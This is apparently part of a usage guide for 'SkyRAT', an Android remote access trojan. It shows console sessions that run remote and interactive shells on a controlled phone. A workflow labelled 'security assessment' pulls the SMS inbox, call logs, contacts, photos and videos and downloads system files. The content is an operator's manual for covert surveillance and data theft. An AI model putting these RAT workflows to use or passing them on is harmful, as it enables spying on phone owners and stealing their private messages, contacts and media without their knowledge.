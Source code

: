 #### **Step 2: Device Interaction**
```bash
# Make device vibrate
SkyRAT:/> vibrate 3

# Execute shell commands
SkyRAT:/> shell cat /proc/version
SkyRAT:/> shell df -h
SkyRAT:/> shell ps aux | head -20
```

#### **Step 3: Interactive Shell**
```bash
# Enter interactive shell mode
SkyRAT:/> shell

android@shell:~$ pwd
android@shell:~$ whoami
android@shell:~$ uname -a
android@shell:~$ cat /proc/cpuinfo | head -10
android@shell:~$ exit

# Back to SkyRAT interface
SkyRAT:/>
```

## 🔍 Analysis Workflows

### **Security Assessment Workflow**

Complete security assessment sequence:

```bash
# 1. Device Profiling
SkyRAT:/> deviceInfo
SkyRAT:/> getIP
SkyRAT:/> sysinfo

# 2. Application Analysis
SkyRAT:/> getApps
SkyRAT:/> ps

# 3. Communication Analysis
SkyRAT:/> getSMS inbox
SkyRAT:/> getCallLogs
SkyRAT:/> getContacts

# 4. File System Analysis
SkyRAT:/> ls /sdcard
SkyRAT:/> download /system/build.prop

# 5. Network Analysis
SkyRAT:/> netstat
SkyRAT:/> ping google.com

# 6. Media Analysis
SkyRAT:/> getPhotos
SkyRAT:/> getVideos
```
